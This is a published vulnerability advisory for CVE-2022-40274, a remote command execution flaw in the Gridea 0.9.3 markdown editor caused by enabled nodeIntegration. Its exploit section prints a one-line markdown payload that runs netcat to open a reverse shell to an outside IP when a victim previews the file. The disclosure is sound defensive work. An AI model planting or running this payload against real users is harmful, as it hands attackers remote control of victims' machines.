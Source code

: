 ```yaml
---
slug: advisories/marshmello/
title: Gridea 0.9.3  -  RCE via nodeIntegration feature
authors: Carlos Bello
writer: cbello
codename: marshmello
product: Gridea 0.9.3
date: 2022-09-26 14:30 COT
cveid: CVE-2022-40274
severity: 8.6
description: Gridea 0.9.3  -  RCE via nodeIntegration feature - Remote command execution
keywords: Fluid Attacks, Security, Vulnerabilities, Gridea, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Gridea 0.9.3  -  RCE via nodeIntegration feature       |
| **Code name**         | [Marshmello](https://en.wikipedia.org/wiki/Marshmello) |
| **Product**           | Gridea                                                 |
| **Affected versions** | Version 0.9.3                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.6                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-40274](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40274)                        |

## Description

Gridea version 0.9.3 allows an external attacker to execute arbitrary
code remotely on any client attempting to view a malicious markdown
file through Gridea. This is possible because the application has the
`nodeIntegration` option enabled.

## Vulnerability

This vulnerability occurs because the application has the `nodeIntegration`
option enabled.  Due to the above, an attacker can embed malicious JS code
in a markdown file and send it to the victim for viewing to achieve an RCE.

## Exploitation

To exploit this vulnerability, you must send the following file to a user to
open with Gridea. The exploit is triggered when the user presses `CTRL+P` or
simply clicks `preview`.

### exploit.md

```markdown
<img src=1 onerror="require('child_process').exec('nc 192.168.20.38 4444 -e /bin/bash');"/>
```

## Evidence of exploitation

![RCE-Gridea](https://user-images.githubusercontent.com/51862990/189430881-5d6db562-d650-42c1-af7b-bc0626d9dc89.gif)

## Our security policy

We have reserved the CVE-2022-40274 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Gridea 0.9.3

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/getgridea/gridea>

## Timeline

<time-lapse
  discovered="2022-09-08"
  contacted="2022-09-08"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
